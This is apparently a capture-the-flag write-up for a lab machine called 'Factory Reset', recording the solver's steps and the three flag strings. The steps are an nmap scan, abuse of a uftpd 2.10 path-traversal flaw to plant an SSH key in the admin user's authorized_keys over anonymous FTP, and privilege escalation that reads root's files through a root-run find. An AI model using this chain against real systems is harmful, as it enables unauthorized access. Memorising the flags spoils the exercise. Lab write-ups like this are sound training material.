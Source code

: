 # Factory Reset, 300 points

## Flag 1

First, you have to connect to the VPN with the command:
`sudo openvpn yourvpnfile.ovpn`

Next, let's run an nmap scan:
`nmap -sC -sV 10.6.0.100`

!["nmap scan"](./1.png)

There are two interesting things here, ssh access, and **uftpd 2.10** access

After some research, I found this document: https://www.suryadina.com/assets/pdf/Project_CVEs_UFTPD_published.pdf

I conclude that I must abuse the flaw of uftpd 2.10 to put my SSH key there.

`ssh-keygen -b 2048 -t rsa -f ~/.ssh/sshkey_lab`
`mv ~/.ssh/sshkey_lab.pub ./`

Then I connect in FTP
`ftp 10.6.0.100 #avec anonymous`

With
`ls ../../home`
I see that there is a user called "admin".

So I use the command:
`put sshkey_lab.pub ../../home/admin/.ssh/authorized_keys`

I log out and try to log in using SSH.
`ssh -i ~/.ssh/sshkey_lab admin@10.6.0.100`

And it works!

!["SSH work"](./2.png)

**Flag 1 : CTF{Th3_Inc3pt0r}**

## Flag 2

To find the second flag, I just went through the files and found it in `/var/backups/DATA/flag1.txt`

**flag 2 : CTF{F0rtREss_Br3@c#3d}**

## Flag 3

I think the flag 3 is in the root folder, for that I have to do a bit of privilege escalation.

I start by running LinPEAS to try and find flaws.

!["LinPEAS Scan"](./3.png)

I notice that the **find** command is executed with the root user.

So I use the command:
`find /root -type f -exec cat {} \;`

And it works !

**Flag 3 : CTF{!_@m_r00t3d}**